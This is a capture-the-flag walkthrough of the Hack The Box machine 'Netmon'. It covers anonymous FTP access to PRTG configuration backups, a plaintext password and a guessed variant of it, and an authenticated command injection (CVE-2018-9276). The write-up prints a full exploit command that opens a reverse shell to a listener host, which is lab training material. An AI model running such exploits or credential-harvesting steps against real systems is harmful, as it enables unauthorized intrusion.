


## Overview

Netmon is an easy Windows retired machine on Hack The Box running an outdated version of PRTG Network Monitor. This walkthrough covers how I used anonymous FTP access to gather information and extract credentials from configuration files, leveraged these credentials to exploit a known remote code execution vulnerability (CVE-2018-9276), and ultimately gained a reverse shell on the target to capture both user and root flags.

## Enumeration

Running an Nmap scan with default scripts (`-sC`) and version detection (`-sV`) reveals multiple open services, including FTP with **anonymous access**, and an HTTP service running **PRTG Network Monitor version 18.1.37.13946**. Windows RPC, NetBIOS, and SMB ports are also open, indicating a Windows-based host — likely **Windows Server 2008 R2–2012**.

  

### Exploring the PRTG Network Monitor Web Interface

Navigating to [http://10.10.10.152](http://10.10.10.152) shows the login page for PRTG Network Monitor.

The web server hosts PRTG Network Monitor, but without credentials, further access is blocked. Time to revisit FTP for additional clues.

  

## Foothold

### Anonymous FTP Access

Since FTP allows anonymous access, we reconnect to explore the file system in more depth and search for configuration files or credentials related to PRTG.

  

After logging into the FTP server anonymously, I began enumerating the directory structure. I first listed the contents of the root directory and identified several standard Windows folders such as `inetpub`, `Program Files`, `Users`, and `Windows`.

I navigated into the `Users` directory and found two subdirectories: `Administrator` and `Public`. Attempting to access `Administrator` returned an "Access is denied" error, but access to `Public` was successful.

Inside `Public`, I browsed to the `Desktop` folder, which contained a file named `user.txt` along with a couple of `.lnk` shortcuts related to PRTG. I downloaded the `user.txt` file to retrieve the user flag.

  

After retrieving the `user.txt` flag, I continued exploring the FTP server for more valuable files. I navigated into the `Paessler` directory and then into `PRTG Network Monitor`, where I found several subdirectories and configuration files.

Inside this directory, I successfully downloaded both the `PRTG Configuration.old.bak` and `PRTG Configuration.dat` files. These files typically contain stored credentials and other sensitive configuration data related to the PRTG Network Monitor.

  

After downloading the `PRTG Configuration.old.bak` file, I changed its extension to `.txt` in order to view its contents in a standard text editor. This revealed readable XML-style configuration data.

Within the file, I discovered a commented section containing the default login credentials for the PRTG web interface:

The username was noted as `prtgadmin` in a comment, and the password was shown as `PrTg@dmin2018` under the `<dbpassword>` tag.

  

I returned to the PRTG Network Monitor web interface and attempted to log in using the extracted credentials. However, the login failed, which likely indicates that the password has been changed from the default stored in the configuration file.

  

I then examined the current `PRTG Configuration.dat` file, hoping to find updated credentials. Inside, I located the username `prtgadmin`, but the password field was encrypted and stored as a hash or cipher text.

This suggests the password is no longer in plaintext and is protected, making it unusable without decryption or other exploitation methods.

  

Since the password in the current configuration file was encrypted or hashed rather than stored in plaintext, I opted to guess an updated version of the original password. Using `PrTg@dmin2019`, I was able to successfully log in to the PRTG Network Monitor web interface.

  

## Exploitation

## Exploitation
After confirming the PRTG version as 18.1.37.13946, I researched known vulnerabilities and identified **CVE-2018-9276**. This vulnerability affects PRTG Network Monitor versions prior to 18.2.39 and allows operating system command injection through the sensor or notification management features.

**Important:** This vulnerability requires authenticated access with administrative privileges to the PRTG web console. Once authenticated, an attacker can send specially crafted parameters to execute arbitrary commands on the server.

The vulnerability is rated High (CVSS 7.2) and is included in CISA's Known Exploited Vulnerabilities Catalog, highlighting its relevance in real-world attacks.

I decided to test this publicly available exploit to gain further access.

Exploit: https://github.com/A1vinSmith/CVE-2018-9276

Using the extracted credentials, I ran the **CVE-2018-9276** exploit against the PRTG Network Monitor instance on port 80 with the following command:

`sudo python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.21 --lport 4444 --user prtgadmin --password PrTg@dmin2019`

The exploit successfully staged a payload and obtained a session as the prtgadmin user. The payload was uploaded to C:\Users\Public\tester.txt and executed via the PRTG notification feature.

I set up a listener on my attack machine, and shortly after triggering the exploit, I received an incoming connection on 10.10.14.21:4444, indicating successful code execution and shell access.
  

After running the exploit and setting up a listener on my machine, I successfully received a reverse shell connection from the target. Upon connecting, I verified that I had access to the `C:\Windows\System32` directory, confirming a shell with significant system privileges as the `prtgadmin` user on the Windows machine.

  

After gaining shell access, I navigated to the `C:\Users\Administrator\Desktop` directory and displayed the contents of `root.txt` by running:

`type C:\Users\Administrator\Desktop\root.txt`

This revealed the root flag, confirming full system compromise and successful privilege escalation.

This box demonstrates the importance of proper credential management and patching critical vulnerabilities. By exploiting anonymous FTP misconfigurations, I accessed sensitive PRTG configuration files containing login credentials. Using these credentials, I exploited a known RCE vulnerability to gain remote shell access. Finally, I escalated privileges to retrieve the root flag, completing the challenge.

Netmon highlights common attack vectors against outdated software and poorly secured services, making it a valuable exercise in real-world penetration testing.

